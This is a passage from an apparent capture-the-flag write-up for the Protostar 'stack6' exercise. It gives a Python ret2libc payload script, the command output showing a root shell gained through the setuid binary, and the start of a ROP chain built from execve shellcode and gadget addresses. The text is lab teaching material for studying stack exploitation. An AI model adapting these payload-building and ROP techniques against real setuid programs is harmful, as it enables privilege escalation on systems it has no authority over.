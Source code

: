 So how would our input look like? This is a Python script that prints out our input.
```
padding = '\x61' * 80
return_addr = '\xb0\xff\xec\xb7'
more_padding = '\x61\x61\x61\x61'
addr_of_sh = '\xbf\x63\xfb\xb7'
print padding+return_addr+more_padding+addr_of_sh
```
Let me explain what the purpose of `more_padding` is. Recall that before you call a function (called the 'callee'), you would push the arguments to the stack. That means that the callee's arguments would be a return address away from the callee's stack frame. Hence, to pass the argument `'/bin/sh'` to the callee function `__libc_system`, we need to simulate a return address in between the 2. We can ignore the `ebp` of the caller function because the callee function is that one that pushes it to the stack, so it takes that into account when accessing its arguments.

![stack_frame_pic](https://y86tutoring.files.wordpress.com/2012/10/caller-callee.png)

With that input, we get ourselves a root shell.
```
user@protostar:/opt/protostar/bin$ python /home/user/stack6.py > ~/input\ stack6
user@protostar:/opt/protostar/bin$ cat ~/input\ stack6 - | ./stack6 
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa����aaaaaaaaaaaa����aaaa�c��
whoami
root
```

In case you are wondering how we got a root shell, `stack6` is a setuid program owned by `root`. So our EUID is `root`, so is the EUID of all child processes of the `stack6` program. That's how we got the root shell.

### Return Oriented Programming

>In this technique, an attacker gains control of the call stack to hijack program control flow and then executes carefully chosen machine instruction sequences that are already present in the machine's memory, called "gadgets". Each gadget typically ends in a return instruction and is located in a subroutine within the existing program and/or shared library code. Chained together, these gadgets allow an attacker to perform arbitrary operations on a machine employing defenses that thwart simpler attacks.

The clues given in the exploit-exercises website tells us we can also use Return Oriented Programming.

Before we search for ROP gadgets, let's take a moment to think about how our shellcode would look like if we were able to execute it in the stack. It basically executes `execve('/bin/sh')`.

```
mov eax, 0xb		; syscall reference for execve
mov ebx, 0xb7fb63bf	; address of string '/bin/sh'
xor ecx, ecx
xor edx, edx
int 0x80
```

I headed to [ropshell](http://ropshell.com) to find ROP gadgets that behave similarly to each line of assembly in our shellcode above. This are 4 ROP gadgets we can chain together to execute `execve('/bin/sh')`.
```
> 0x000cebe0 : pop ecx; pop eax; ret
> 0x00074886 : pop ebx; ret
> 0x0002a2fc : pop edx; ret
> 0x00097bf5 : int 0x80; ret
```
Because `libc-2.11.2.so` is mapped to a different virtual memory address during runtime of `./stack6`, we have to take into account its new base address, which is `0xb7e97000`. We add the offset of the ROP gadgets to it to get their relocated addresses in `stack6`.
